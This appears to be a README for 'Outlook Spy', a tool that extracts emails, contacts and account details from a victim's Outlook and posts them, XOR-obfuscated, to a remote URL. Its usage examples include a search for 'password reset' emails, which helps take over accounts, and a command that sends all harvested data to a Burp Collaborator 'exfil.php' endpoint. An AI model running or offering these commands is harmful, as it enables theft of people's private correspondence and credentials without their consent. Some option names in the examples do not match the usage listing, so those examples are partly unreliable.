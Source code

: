 # Outlook Spy

Outlook Spy enables the retrieval of emails, contacts and accounts from Outlook.

```
Usage: OutlookSpy.exe <options>
        Required
                -a, --action    Action to be taken. (accounts, all, contacts, list_fields, messages_meta, message_single, message_full)

        Optional
                -e, --entry-id  Outlook generated entry id of the record to fetch
                -m, --max-records       Number of messages to retrieve
                -br, --body-contains-regex      Regex for searching email
                -bc, --body-contains    String for searching email body (insensitive).
                -sr, --subject-contains-regex   Filters messages if the subject contains the specified value.
                -sc, --subject-contains Filters messages if the subject contains the specified value.
                -fs, --max-message-size Restricts gathered messages to the specified size in bytes.
                -o, --output    Output type: csv,json
                -u, --url       url where data will be posted
                -x, --xor-key   Xor data before transmitting
                -f, --fields    Fields to include in final output.  If not specified, all fields are returned
```

## Usage Examples

### Retrieve Email Messages
Simple. Default to returning the first 1000 records in JSON format.
```
--action messages
```

Returns csv output of the first 5 email messages with "password reset" in the subject line and the email body contains the word "twitter".
```
--action messages --max-records 5 --output csv --subject-contains "password reset" --body-contains "twitter"
```

Returns a single email record.
```
--action message_single --output json --entryid "0000000017D328571A047845AC04D3428DA4E2920700C3B68E10F77511CE0C0000000000"
```

Returns only the Date, Subject.
```
--action message_single --output json --entryid "0000000017D328571A047845AC04D3428DA4E2920700C3B68E10F77511CE0C0000000000"
```

### Contacts
```
--action contacts --max-records 5000 --output json
```

### Accounts
Simple.
```
--action accounts --output json
```

### ALL
```
--action full --max-records 5 --output json -u https://v2yacmohjrhwn7tg9m0km7lxvo1ep3.burpcollaborator.net/exfil.php --xor-key password
```